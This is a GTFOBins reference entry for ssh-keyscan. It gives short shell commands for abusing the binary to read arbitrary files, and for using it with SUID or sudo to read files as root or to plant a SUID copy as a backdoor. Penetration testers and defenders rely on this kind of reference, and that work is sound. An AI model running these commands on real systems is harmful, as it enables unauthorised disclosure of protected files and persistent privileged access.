 # GTFOBin: ssh-keyscan

The file content is actually parsed so only a part of each line is returned as a part of an error message.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
ssh-keyscan -f $LFILE
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which ssh-keyscan) .

LFILE=file_to_read
./ssh-keyscan -f $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo ssh-keyscan -f $LFILE
```